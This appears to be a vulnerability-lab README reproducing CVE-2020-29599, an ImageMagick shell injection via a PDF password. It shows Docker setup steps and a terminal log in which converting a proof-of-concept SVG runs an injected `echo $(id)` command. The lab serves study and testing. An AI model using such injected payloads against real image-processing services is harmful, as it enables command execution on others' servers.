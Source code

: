 # ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Execute the following command to enter the Linux shell where Imagemagick 7.0.10-36 is installed:

```
docker compose run im bash
```

Enter the `/tmp` directory and convert the format of [poc.svg](poc.svg) to trigger the vulnerability:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

The command `echo $(id)> ./0wned` has been executed successfully:

![](1.png)
